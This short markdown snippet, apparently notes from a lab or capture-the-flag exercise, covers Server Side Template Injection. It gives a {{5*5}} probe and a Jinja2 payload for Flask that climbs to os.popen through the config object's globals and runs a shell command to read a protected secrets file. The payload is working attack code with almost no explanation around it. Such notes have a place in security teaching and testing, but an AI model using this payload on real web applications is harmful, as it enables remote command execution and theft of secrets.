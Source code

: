 ### Server Side Template Injection

---

Example of a vulnerability : 

```py
{{5*5}}
```

Flask payload for Jinja2 : 

```py
{{config.__class__.__init__.__globals__['os'].popen('cat flaskr/protected/burdellsecrets.txt').read()}}
```

